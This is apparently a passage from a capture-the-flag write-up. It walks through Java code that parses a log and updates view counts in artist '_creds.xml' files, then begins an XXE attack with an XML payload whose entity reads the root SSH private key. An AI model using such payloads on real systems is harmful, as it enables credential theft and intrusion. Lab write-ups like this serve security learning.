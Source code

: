 ```bash
                {
                    Integer totalviews = Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1;
                    System.out.println("Total views:" + Integer.toString(totalviews));
                    rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                    Integer views = Integer.parseInt(el.getChild("views").getText());
                    el.getChild("views").setText(Integer.toString(views + 1));
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
    public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
            String line = log_reader.nextLine();
            if(!isImage(line))
            {
                continue;
            }
            Map parsed_data = parseLog(line);
            System.out.println(parsed_data.get("uri"));
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            String xmlPath = "/credits/" + artist + "_creds.xml";
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }

    }
}
```

The parseLog function is parsing every line. Then, for all the parsed data it’s calling getArtist and transforming it to String.

`main` uses the artist name to generate a path to a `[artist name]_creds.xml` file, which is passes along with the URI to `addViewTo`.

`addViewTo` parses the XML, increments the view count for that image, and then writes the file back:

## XXE File Read

### XML payload

First, create a malicious XML:

```bash
<?xml version="1.0" encoding="UTF-8">
<!DOCTYPE author [<!ENTITY xxe SYSTEM 'file:///root/.ssh/id_rsa'>]>
<credits>
	<author>&xxe;</author>
	<image>
		<uri>/img/greg.jpg</uri>
		<views>0</views>
	</image>
	<image>
		<uri>/img/hungy.jpg</uri>
		<views>0</views>
	</image>
```